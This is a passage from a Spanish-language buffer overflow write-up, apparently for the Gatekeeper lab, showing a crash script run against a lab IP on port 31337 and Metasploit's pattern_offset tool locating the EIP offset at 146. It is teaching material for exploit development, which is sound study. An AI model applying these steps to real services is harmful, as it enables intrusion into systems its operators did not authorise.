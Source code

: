  **Nota:**
  No olvidar que tras cada ejecución nuestro binario se corromperá, por lo cual debemos **volver** a ejecutarlo.
  {: .notice--danger}
  ```python
  python obset.py 192.168.1.10 31337
  ```
  [obset.py](https://github.com/hacknotes/h4ckn0tes/blob/main/Buffer%20Overflow/Windows/Stack%20Based%2032%20Bits%20(Gatekeeper)/obset.py)

  ![EIP Control Gatekeeper](/assets/images/eipcontrolGatekeeper.png)

  Vemos que nuevamente nuestro binario se corrompe, de este paso, lo más importante es prestar atención al valor del `EIP`, ya que este nos servirá para encontrar el `offset`.

- Obtenemos el valor del offset.

  El valor del EIP, lo deberemos pasar como parámetro al siguiente comando para obtener el valor del offset.
 
  ```python
  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
  ```
  **Resultado:**
  ```python
  [*] Exact match at offset 146
  ```
